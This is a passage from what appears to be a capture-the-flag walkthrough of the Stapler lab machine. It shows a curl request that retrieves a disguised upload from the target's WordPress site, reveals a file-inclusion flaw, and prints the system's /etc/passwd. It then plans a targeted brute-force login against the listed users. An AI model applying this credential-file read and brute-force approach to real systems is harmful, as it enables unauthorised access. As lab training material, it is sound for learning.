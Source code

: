 Trying to open in it in the browser gives us errors, but that is because the file is not actually a jpeg and the browser is expecting a jpeg, lets curl it:

``` bash
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

mwah hahaha! We have LFI! With the contents of the /etc/passwd we also have every system user, we can now attempt a fine scoped brute force login attempt.

```
root:x:0:0:root:/root:/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:108:111::/var/run/dbus:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
peter:x:1000:1000:Peter,,,:/home/peter:/bin/zsh
mysql:x:111:117:MySQL Server,,,:/nonexistent:/bin/false
RNunemaker:x:1001:1001::/home/RNunemaker:/bin/bash
ETollefson:x:1002:1002::/home/ETollefson:/bin/bash
DSwanger:x:1003:1003::/home/DSwanger:/bin/bash
AParnell:x:1004:1004::/home/AParnell:/bin/bash
SHayslett:x:1005:1005::/home/SHayslett:/bin/bash
MBassin:x:1006:1006::/home/MBassin:/bin/bash
JBare:x:1007:1007::/home/JBare:/bin/bash
LSolum:x:1008:1008::/home/LSolum:/bin/bash
IChadwick:x:1009:1009::/home/IChadwick:/bin/false
MFrei:x:1010:1010::/home/MFrei:/bin/bash
SStroud:x:1011:1011::/home/SStroud:/bin/bash
CCeaser:x:1012:1012::/home/CCeaser:/bin/dash
JKanode:x:1013:1013::/home/JKanode:/bin/bash
CJoo:x:1014:1014::/home/CJoo:/bin/bash
Eeth:x:1015:1015::/home/Eeth:/usr/sbin/nologin
LSolum2:x:1016:1016::/home/LSolum2:/usr/sbin/nologin
JLipps:x:1017:1017::/home/JLipps:/bin/sh
jamie:x:1018:1018::/home/jamie:/bin/sh
Sam:x:1019:1019::/home/Sam:/bin/zsh
Drew:x:1020:1020::/home/Drew:/bin/bash
jess:x:1021:1021::/home/jess:/bin/bash
SHAY:x:1022:1022::/home/SHAY:/bin/bash
Taylor:x:1023:1023::/home/Taylor:/bin/sh
mel:x:1024:1024::/home/mel:/bin/bash
```